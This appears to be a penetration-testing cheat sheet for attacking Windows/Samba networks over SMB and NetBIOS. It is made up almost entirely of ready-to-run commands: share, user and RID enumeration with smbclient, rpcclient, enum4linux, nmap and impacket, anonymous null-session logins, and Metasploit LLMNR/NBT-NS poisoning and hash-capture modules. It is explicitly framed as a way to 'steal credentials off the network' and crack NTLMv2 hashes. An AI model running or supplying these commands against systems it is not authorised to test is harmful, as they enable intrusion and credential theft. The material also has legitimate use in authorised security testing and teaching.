 		nmblookup -A target
		smbclient //MOUNT/share -I target -N
		rpcclient -U "" target
		enum4linux target

	Command 	Description
		
		nbtscan 192.168.1.0/24
		Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain

		enum4linux -a target-ip
		Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing

	Fingerprint SMB Version
	smbclient -L //192.168.1.100 

	Find open SMB Shares
	nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   

	Enumerate SMB Users
	nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
	python /usr/share/doc/python-impacket-doc/examples /samrdump.py 192.168.XXX.XXX

	RID Cycling:
	ridenum.py 192.168.XXX.XXX 500 50000 dict.txt

	Metasploit module for RID cycling:
		use auxiliary/scanner/smb/smb_lookupsid

**Manual Null session testing:**

	Windows:
		net use \\TARGET\IPC$ "" /u:""

	Linux:
		smbclient -L //192.168.99.131

	NBTScan unixwiz

	Install on Kali rolling:
		apt-get install nbtscan-unixwiz 
		nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan

	LLMNR / NBT-NS Spoofing
		Steal credentials off the network.
		Metasploit LLMNR / NetBIOS requests
			Spoof / poison LLMNR / NetBIOS requests:
				auxiliary/spoof/llmnr/llmnr_response
				auxiliary/spoof/nbns/nbns_response

	Capture the hashes:
		auxiliary/server/capture/smb
		auxiliary/server/capture/http_ntlm
	You’ll end up with NTLMv2 hash, use john or hashcat to crack it.
